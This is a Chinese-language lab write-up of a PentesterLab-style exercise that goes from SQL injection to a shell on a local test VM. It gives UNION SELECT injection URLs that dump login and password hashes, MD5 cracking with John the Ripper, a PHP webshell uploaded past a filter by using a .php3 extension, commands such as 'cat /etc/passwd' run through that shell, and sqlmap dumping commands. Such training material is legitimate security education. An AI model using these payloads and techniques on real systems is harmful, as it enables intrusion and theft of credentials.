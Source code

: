## 从SQL注入到Shell
-------

### 一.实验环境
攻击者： kali系统&nbsp;attack&nbsp;网络&nbsp;NatNetwork &nbsp;10.0.2.9<br>
![](https://i.imgur.com/euES08k.png)<br>
受害者： Debian&nbsp;sql_victim&nbsp;网络&nbsp;NatNetwork&nbsp;10.0.2.8<br>
![](https://i.imgur.com/Lm1HbRY.png)<br>
两者网络互通<br>
![](https://i.imgur.com/AgQsbzt.png)<br>

### 二.实验步骤
- 攻击机扫描受害者端口，确认22与80端口开放<br>
![](https://i.imgur.com/qOEejJT.png)
- 通过使用telnet连接到受害者的80端口，可以检索到大量信息
```
telnet 10.0.2.8 80
```
发送HTTP信息：
```
GET / HTTP/1.1
Host: 10.0.2.8
```
![](https://i.imgur.com/SfHZkoT.png)
- 通过使用软件Burp Suite设置为代理，也可以得到相同的信息
	- 将Burp Suite默认代理拦截关闭
![](https://i.imgur.com/crD9jTG.png)
	- 攻击机浏览器访问受害者的80端口 
![](https://i.imgur.com/AvASBhZ.png)
	- 查看burp suite拦截到的信息
![](https://i.imgur.com/mgn0I2p.png)
- 使用wfuzz暴力检测web服务器上的目录和页面
对于本次实验来说，wfuzz爆破是一个可选步骤。wfuzz 的典型应用场景是：所有可见的链接都已经测试过了，还希望更进一步找找有没有「隐藏」的链接、孤立页面，这个时候 wfuzz 类的 URI 爆破工具就可以派上用场了
![](https://i.imgur.com/EL83coM.png)
	- 运行以下命令来检测远程文件和目录
```
wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/big.txt  --hc 404 http：//10.0.2.8/FUZZ
```
![](https://i.imgur.com/U3t8zUl.png)
	- 还可用于检测服务器上的PHP脚本
```
wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/big.txt  --hc 404 http：//10.0.2.8/FUZZ.php
```
![](https://i.imgur.com/zsujKzR.png)

- SQL注入
	- 查看网页源码，发现有3个id值，可以返回三张图片 
![](https://i.imgur.com/SU66Cj6.png)
![](https://i.imgur.com/cSJtC45.png)
当id为3时，应该返回内容，但可能因为该图片已经不存在因此返回空白
![](https://i.imgur.com/R9Ht2mw.png)
	- 当在地址栏输入的id不在1-3范围内时，不返回任何内容
![](https://i.imgur.com/1QUlacj.png)
	- 当在地址栏输入and的两边有一边为真，则返回真条件部分的内容
![](https://i.imgur.com/Dg2P8Z7.png)
	- 当在地址栏输入or的两边有一边为真，则返回全部图片
![](https://i.imgur.com/gFXCl0M.png)
![](https://i.imgur.com/wK0uqan.png)
	- 当在地址栏输入and的两边都为假，则不返回任何内容
![](https://i.imgur.com/GNa9jgg.png)

可见该结果满足理论上and和or的判断条件

- 服务器接受减法运算，加法符号会报错，同时会暴露后台数据库是MYSQL
![](https://i.imgur.com/6acUWST.png)
	- 服务器接受求余运算1%2=1,2%1=0，按照运算结果返回内容
![](https://i.imgur.com/Cv03YMm.png)
	- 服务器接受乘法运算，除法符号会报错
![](https://i.imgur.com/J66fxEQ.png)
	- 括号与单双引号必须成对出现，如果出现奇数个括号或引号则会报错，同时会暴露后台数据库是MYSQL，可以用 -- 注释掉之后的内容
![](https://i.imgur.com/AXPpLzT.png)
![](https://i.imgur.com/ZxYQnLC.png)
	- 被引号引起来的数字会被服务器正确解释并返回，但处理速度通常要慢于直接书写数字
![](https://i.imgur.com/KW5iCXT.png)
由结果可见，整数与字符都可能产生SQL注入
	
- 利用order关键字来探测数据库中的列数，如果ORDER BY语句中的列号大于查询中的列数，则会引发错误；由1开始递增观察到当order 5时返回未知列数错误，确定列数为4
![](https://i.imgur.com/fBsaNso.png)
	- 利用UNION SELECT来确定列数，如果尝试执行UNION并且两个查询返回的列数不同，则注入返回错误；通过该过程猜测并确定列数为4
![](https://i.imgur.com/RIS1V9I.png)
	- 通过UNION SELECT返回的信息2我们知道，数据库用第二列来输出信息，因此我们通过替换第二列的值来探测数据库的相关信息
```
数据库版本：http://10.0.2.8/cat.php?id=1％20UNION％20SELECT％201,@@ version,3,4
当前用户：http://10.0.2.8/cat.php?id=1％20UNION％20SELECT％201,current_user(),3,4
当前数据库：http://10.0.2.8/cat.php?id=1％20UNION％20SELECT％201,database(),3,4
```
![](https://i.imgur.com/9XS75EC.png)
![](https://i.imgur.com/TwrknFB.png)
	
- MySQL提供的表包含自MySQL版本5以来可用的数据库，表和列的元信息。我们将使用这些表来检索构建最终请求所需的信息。这些表存储在数据库information_schema中。
```
表格列表： http://10.0.2.8/cat.php?id=1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables
列列表： http://10.0.2.8/cat.php?id=1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns
```
![](https://i.imgur.com/Bv42T7Z.png)
	- 这些请求提供了所有表和列的原始列表，但是要查询数据库并检索有用的信息，需要知道哪个列属于哪个表。
```
使用关键字CONCAT：
在注入的同一部分中连接表名和列名:http://10.0.2.8/cat.php?id=1 UNION SELECT 1,concat('^^^',table_name,':',column_name,'^^^'),3,4 FROM information_schema.columns
```
	
- 我们获悉想要的用户名和密码信息在user表中，于是用如下查询得到需要的信息
```
http://10.0.2.8/cat.php?id=1 UNION SELECT 1,concat(login,':',password),3,4 FROM users;
```
![](https://i.imgur.com/umEXIOj.png)

- 分析用户名和密码
	- 方法一：使用搜索引擎。当哈希是未加盐的时候，可以使用Google这样的搜索引擎轻松破解，可以由网页搜索结果得知该网站使用的是MD5加密算法，且直接可以得到解密后的密码明文
![](https://i.imgur.com/qW86k6X.png)
	- 方法二：John-The-Ripper可用于破解此密码，大多数现代Linux发行版都包含John的版本，为了破解此密码，您需要告诉John使用了哪种算法来加密它。对于Web应用程序，一个很好的猜测是MD5。
	1. 找到/usr/share/wordlists文件夹中的rockyou.txt.gz并提取其中的txt文件，作为john解密的参考字典
	2. 创建pwd.txt并将用户名和密码密文存入其中，作为john解密的文本;我们要为John提供正确格式的信息，将用户名和密码放在由冒号'：'分隔的同一行上<br>admin:8efe310f9ab3efeae8d410a8e0166eb2
	3. 在命令行输入如下指令，提取密码明文
```
john pwd.txt --format = raw-md5 --wordlist = rockyou.txt --rules
```
![](https://i.imgur.com/q5OgjdG.png)
![](https://i.imgur.com/VeCoJrL.png)

- 随后用获取到的用户名和密码明文登录管理员 
![](https://i.imgur.com/elsQ7Pj.png)

- 上传webshell和代码执行
<br>我们可以看到有一个允许用户上传图片的文件上传功能，我们可以使用此功能尝试上传PHP脚本。一旦上传到服务器上，这个PHP脚本将为我们提供运行PHP代码和命令的方法。

	- 首先，我们需要创建一个PHP脚本来运行命令。保存为扩展名为.php的文件
![](https://i.imgur.com/n1Wbgl6.png)
	- 我们现在可以使用页面上提供的上传功能并尝试上传此脚本
![](https://i.imgur.com/2LmbF62.png)
	- 我们可以看到该脚本尚未在服务器上正确上载。应用程序阻止具有.php要上载扩展名的文件。
![](https://i.imgur.com/s42kX5J.png)
	- 但是我们可以尝试将后缀名改为php3来绕过这一过滤器，文件上传成功，.php3 能被当作 PHP 文件解释执行，是因为目标 Apache 服务器配置缺陷
![](https://i.imgur.com/5ecuvhk.png)
![](https://i.imgur.com/sMQQc0C.png)
	- 查看网页源码,并直接访问/show.php?id=4，并进一步访问admin/uploads/shell.php3
![](https://i.imgur.com/JvMdmqP.png)
![](https://i.imgur.com/UmUY35e.png)
![](https://i.imgur.com/QoDywIe.png)
	- 利用url执行cmd命令获取服务器信息
	1. 获取服务器内核信息<br>
	```http://10.0.2.8/admin/uploads/shell.php3?cmd=uname```
	![](https://i.imgur.com/LFhe5Uk.png)
	2. 获取系统用户完整列表<br>
	```http://10.0.2.8/admin/uploads/shell.php3?cmd=cat /etc/passwd```
	![](https://i.imgur.com/muNyDct.png)
	3.  获取当前内核的版本<br>
	```http://10.0.2.8/admin/uploads/shell.php3?cmd=uname -a```
	![](https://i.imgur.com/IpizLZM.png)
	4. 获取当前目录的内容<br>
	```http://10.0.2.8/admin/uploads/shell.php3?cmd=ls``` 
	![](https://i.imgur.com/eHaZJGN.png)

- 使用SQLmap自动注入
	- 找到sql注入点及服务器信息
![](https://i.imgur.com/q8efbOz.png)
	- ```sqlmap -u "http://10.0.2.8/cat.php?id=1" --dbs```
![](https://i.imgur.com/A5OQdwd.png)
	- ```sqlmap -u "http://10.0.2.8/cat.php?id=1" --tables```<br>
![](https://i.imgur.com/uBPxAeY.png)
![](https://i.imgur.com/ma1iU5o.png)
	- ```sqlmap -u "http://10.0.2.8/cat.php?id=1" -T users --columns```<br>
![](https://i.imgur.com/zvoRa0U.png)
	- ```sqlmap -u "http://10.0.2.8/cat.php?id=1" -T users -C "login,password" --dump```
![](https://i.imgur.com/5e1TLvS.png)

## 参考
------

 [SQL注入常见攻击方式](https://blog.csdn.net/github_36032947/article/details/78442189)<br>
 [Kali下使用SQLmap工具对网站进行渗透测试检测](https://www.exehack.net/4955.html)<br>
 [From SQL Injection to Shell](https://pentesterlab.com/exercises/from_sqli_to_shell/course)